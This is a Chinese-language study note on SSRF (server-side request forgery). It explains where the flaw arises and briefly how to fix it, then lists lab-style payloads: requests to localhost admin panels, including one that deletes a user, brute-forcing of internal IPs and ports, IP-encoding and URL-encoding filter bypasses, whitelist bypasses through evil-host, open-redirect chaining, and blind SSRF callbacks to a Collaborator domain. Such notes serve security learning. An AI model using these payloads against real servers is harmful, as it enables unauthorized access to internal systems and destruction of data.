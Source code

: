 ## ==未归纳==

SSRF（服务器端请求伪造）漏洞是一种通过诱导服务器发起未经授权的请求，从而访问内部资源、敏感数据或对外部系统发起攻击的安全漏洞。

一般在用户可以请求服务器访问第三方资源的业务中存在

例如：

1. 发送 `HTTP` 请求：https://www.example.com/xxx.php?image=https://www.kali.org/kali.jpg
2. 服务器接收到请求之后获取 http://www.kali.org/kali.jpg 图片
3. 服务器获取到图片后将图片返回给用户

常见位置：

1. 分享：通过 `url` 地址分享网页内容

2. 转码服务

3. 在线翻译

4. 图片加载与下载：通过 `url` 地址加载或下载图片

5. 图片、文章收藏功能

6. 未公开的 `api` 实现以及其他调用 `url` 的功能

7. 从 `url` 关键字中寻找：

   `share` `wap` `url` `link` `src` `source` `target` `u` `3g` `display` `sourceURl` `imageURL` `domain` 

8. `php` 中容易存在 `ssrf` 的函数：

   `curl`  `file_get_content` 

常见用途：

1. 任意文件读取

   > 可利用 `ssrf` 漏洞读取 `web` 服务用户能够访问的所有文件

2. 内外网 `ip` 端口和服务扫描

   > 通常情况下黑客只能扫描目标服务器的外网端口，可以利用 `ssrf` 漏洞扫描不对外开放的内网端口

3. 内外网主机漏洞利用

>  `get` 
>
>  >  `sql` 注入
>
>  `post` 
>
>  > `sql` 注入，`rce` 调用

修复思路：

1. 限制协议
2. 限制 `ip` 
3. 限制端口

可能存在 ssrf 的 url 样式

```
http://test.local/pikachu/vul/ssrf/ssrf_curl.php?url=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info1.php
```

## 验证

**直接验证**

利用 `ssrf` 漏洞获取一个外网的页面

```
http://test.local/pikachu/vul/ssrf/ssrf_curl.php?url=http://hack.local/
```

![利用 ssrf 漏洞获取一个外网的页面](./../../../image/SSRF/%E5%88%A9%E7%94%A8%20ssrf%20%E6%BC%8F%E6%B4%9E%E8%8E%B7%E5%8F%96%E4%B8%80%E4%B8%AA%E5%A4%96%E7%BD%91%E7%9A%84%E9%A1%B5%E9%9D%A2.png)

**`burp` 验证**

复制 `Collaborator` 域名

```
9gqpdvx9fs7gyu2rlergsb63cuil6cu1.oastify.com
```

![复制 Collaborator 域名](./../../../image/SSRF/%E5%A4%8D%E5%88%B6%20Collaborator%20%E5%9F%9F%E5%90%8D.png)

通过 `ssrf` 访问以上域名

```
http://test.local/pikachu/vul/ssrf/ssrf_curl.php?url=http://9gqpdvx9fs7gyu2rlergsb63cuil6cu1.oastify.com/
```

![通过 ssrf 访问以上域名](./../../../image/SSRF/%E9%80%9A%E8%BF%87%20ssrf%20%E8%AE%BF%E9%97%AE%E4%BB%A5%E4%B8%8A%E5%9F%9F%E5%90%8D.png)

> 若网站有 `cdn` 可通过 `dns 轮询` 得到主服务器 `ip` 

---

可能存在于库存的查询功能

通过后端 api 查询的功能可通过伪造 api 伪造用户请求

```
stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=6&storeId=1
```

> 库存检查功能，可以从内部系统获取数据

构造 api 请求

```
stockApi=http://localhost/admin
```

> 获取 `/admin` URL 的内容

```
stockApi=http://localhost/admin/delete?username=carlos
```

> 删除用户 `carlos` 
>
> 在面板查看删除链接源码即可构造删除命令

在控制台 ip 未知的情况下可通过爆破获取

```
stockApi=http://192.168.0.§1§/admin
```

有时可能需要爆破端口

```
stockApi=http://192.168.0.§1§:§80§/admin
```

某些网站可能对特定 IP 的访问或者特定的路径进行过滤

```
使用 127.0.0.1 的替代 IP 表示形式，例如 2130706433 、 017700000001 或 127.1 。
注册您自己的域名，解析为 127.0.0.1 。您也可以使用 spoofed.burpcollaborator.net 来实现此目的。(http://test.local:8080/admin)
使用 URL 编码或大小写变化来混淆被阻止的字符串（有时需要双 URL 编码）。(http://127.0.0.1:8080/AdMi%6e)
提供您控制的 URL，该 URL 会重定向到目标 URL。尝试对目标 URL 使用不同的重定向代码以及不同的协议。例如，在重定向期间从 http: URL 切换到 https: URL 已被证明可以绕过某些反 SSRF 过滤器。(https://127.0.0.1:8080/admin)
```

> 尝试访问一个目标本地 IP，并构造正常操作，若出发安全机制则是 IP 被过滤
>
> ```
> http://127.0.0.1:8080/product/stock/check?productId=1&storeId=1
> ```
>
> 通过替代 IP 表示形式，访问不存在的路径，若未触发安全机制则成功绕过 IP 过滤
>
> ```
> http://127.1:8080/test
> ```
>
> 得到 IP 后爆破路径，触发 WAF 则是路径被过滤
>
> ```
> http://127.1/admin
> ```
>
> 可尝试对路径大小写或者 URL 绕过（可尝试使用 Hackvertor 进行双 URL 编码）
>
> ```
> http://127.1/AdMi%4e
> ```

白名单过滤可以通过以下方式绕过

> - 您可以使用 `@` 字符将凭据嵌入 URL 中的主机名之前。例如：
>
>   ```
>   https://expected-host:fakepassword@evil-host
>   ```
>
> - 您可以使用 `#` 字符来指示 URL 片段。例如：
>
>   ```
>   https://evil-host#expected-host
>   ```
>
> - 您可以利用 DNS 命名层次结构将所需的输入放入您控制的完全限定的 DNS 名称中。例如：
>
>   ```
>   https://expected-host.evil-host
>   ```
>
> - 您可以对字符进行 URL 编码以混淆 URL 解析代码。
>
> - 如果实现过滤器的代码处理 URL 编码字符的方式与执行后端 HTTP 请求的代码不同，则这尤其有用。您还可以尝试双编码字符；一些服务器对它们收到的输入进行递归 URL 解码，这可能会导致进一步的差异。
>
> - 您可以结合使用这些技术。

有时可以通过利用开放重定向漏洞来绕过基于过滤器的防御。

> 例如，该应用程序包含一个开放重定向漏洞，其中以下 URL：
>
> ```
>  /product/nextProduct?currentProductId=6&path=/product?productId=3
> ```
>
> 返回重定向到：
>
> ```
>  /product?productId=3
> ```
>
> 您可以利用开放重定向漏洞绕过URL过滤，利用SSRF漏洞，如下：
>
> ```
> POST /product/stock HTTP/1.0
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 118
> 
> stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
> ```

若存在无回显的 ssrf 则可利用 Burp Collaborator 修改  Referer 标头中指定的 URL 测试

```
Referer: https://test.oastify.com/
```

可能存在 SSRF 的 URL

```
http://www.xxx.com/vul.php?url=http://www.xxc.com/xxx.jpg
http://share.xxx.com/index.php?url=http://test.com
```

